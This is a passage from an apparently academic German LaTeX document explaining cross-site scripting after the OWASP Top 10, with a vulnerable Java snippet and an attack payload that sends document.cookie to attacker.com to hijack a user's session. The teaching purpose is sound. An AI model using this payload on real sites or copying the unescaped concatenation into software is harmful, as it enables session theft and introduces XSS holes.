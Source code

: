 Die meisten XSS-Schwachstellen sind verhältnismäßig einfach mit Hilfe von Tests oder Code-Analyse zu erkennen.\cite[13]{owasp17top10}.

Angreifer können Skripte im Browser des Opfers ausführen und die Session übernehmen, Webseiten entstellen, falsche Inhalte einfügen, Benutzer umleiten, den Browser des Benutzers durch Malware übernehmen.\cite[13]{owasp17top10}.\\

\textbf{Mögliche Angriffsszenarien:}\\
\\
\textbf{\textit{Szenario 1:}}\\
Die Anwendung übernimmt nicht vertrauenswürdige Daten, die nicht auf Gültigkeit geprüft oder escaped werden, um folgenden HTML-Code zu generieren:\cite[13]{owasp17top10}:\\

\begin{LaTeXCode}[caption={XXS-Beispiel 1},captionpos=b, label=LaTeXCode:xxs1][numbers=none]
(String) page += "<input name='creditcard' type='TEXT'
value='" + request.getParameter("CC") + "'>";
\end{LaTeXCode}

Der Angreifer ändert den Parameter ‘CC’ in seinem Browser auf:

\begin{LaTeXCode}[caption={XXS-Beispiel 2},captionpos=b, label=LaTeXCode:xxs2][numbers=none]
<script>document.location=
http://www.attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>
\end{LaTeXCode}

Dadurch wird die Session-ID des Benutzers an die Seite des Angreifers gesendet, so dass der Angreifer die aktuelle Benutzersession übernehmen kann. Beachten Sie bitte, dass Angreifer XSS auch nutzen können, um jegliche CSRF-Abwehr der Anwendung zu umgehen. A8 enthält weitere Informationen zu CSRF.

\subsubsection{Unsichere Deserialisierung}

